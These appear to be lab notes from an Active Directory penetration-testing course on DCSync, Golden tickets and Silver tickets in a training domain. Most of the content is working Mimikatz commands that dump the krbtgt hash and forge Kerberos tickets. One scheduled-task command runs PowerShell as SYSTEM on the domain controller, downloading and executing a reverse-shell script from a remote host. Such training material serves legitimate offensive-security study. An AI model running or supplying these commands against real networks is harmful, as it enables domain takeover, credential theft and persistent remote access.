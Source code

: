 ![image](https://user-images.githubusercontent.com/40224197/211091844-b2b3d48c-b9e9-40c7-bc43-0f1ca222df08.png)
![image](https://user-images.githubusercontent.com/40224197/211091943-9adde2f1-dc02-4b73-afb2-893c7b5acee0.png)

#### To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

Using the DCSync option needs no code execution (no need to run `Invoke-Mimikatz`) on the target DC.

# Learning Objective 8

• Dump hashes on the domain controller of dollarcorp.moneycorp.local.
• Using the NTLM hash of krbtgt account, create a Golden ticket.
• Use the Golden ticket to (once again) get domain admin privileges from a machine.

# Silver Tickets

• A valid TGS (Golden ticket is TGT).

• Encrypted and Signed by the NTLM hash of the service account (Golden ticket is signed by hash of krbtgt) of the service running with that account.

• Services rarely check PAC (Privileged Attribute Certificate).

• Services will allow access only to the services themselves.

• Reasonable persistence period (default 30 days for computer accounts).

#### Using hash of the Domain Controller computer account, below command provides access to shares on the DC.
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorpdc.dollarcorp.moneycorp.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'
```

![image](https://user-images.githubusercontent.com/40224197/211092932-bf2aa3a3-c1a2-43fb-8954-1238cfa72bc7.png)
![image](https://user-images.githubusercontent.com/40224197/211092967-4012af73-7d9e-4d4a-bca3-7e8bb7a1a0a8.png)

#### Create a silver ticket for the HOST SPN which will allow us to schedule a task on the target:
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorpdc.dollarcorp.moneycorp.local /service:HOST /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'
```

#### Schedule and execute a task.
```cmd
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'" 

schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```
